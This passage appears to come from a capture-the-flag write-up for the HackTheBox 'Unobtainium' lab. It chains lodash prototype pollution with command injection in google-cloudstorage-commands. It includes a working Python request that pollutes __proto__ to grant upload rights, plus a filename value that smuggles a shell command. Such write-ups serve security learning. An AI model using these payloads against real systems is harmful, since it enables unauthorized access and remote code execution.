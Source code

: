

After searching a bit we can find that loadsh 4.17.4 is vulnerable to Prototype Pollution

> https://snyk.io/test/npm/lodash/4.17.4

And also google-cloudstorage-commands is vulnerable to RCE


> https://snyk.io/vuln/SNYK-JS-GOOGLECLOUDSTORAGECOMMANDS-1050431


The next step to do now is pretty straightforward after knowing these 2 exploits!

The /upload endpoint is what we'll be looking for now! It will be enough to get us into the machine

```js

app.post('/upload', (req, res) => {
  const user = findUser(req.body.auth || {});
  if (!user || !user.canUpload) {
    res.status(403).send({ok: false, error: 'Access denied'});
    return;
  }


  filename = req.body.filename;
  root.upload(\"./\",filename, true);
  res.send({ok: true, Uploaded_File: filename});
  });
```
First we need to pollute `canUpload` and changes its value to `true`. here a little python script to do it

```python
import requests

headers = {
    'content-type': 'application/json',
}

data = '{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"__proto__":{canUpload":true}}}'

response = requests.put('http://unobtainium.htb:31337/', headers=headers, data=data)
print(response.text)
``` 

<img src="pollute.png">
Looks like it worked!!

Now all we need to do is upload a filename which is our payload!
```
filename="& PAYLOAD"
```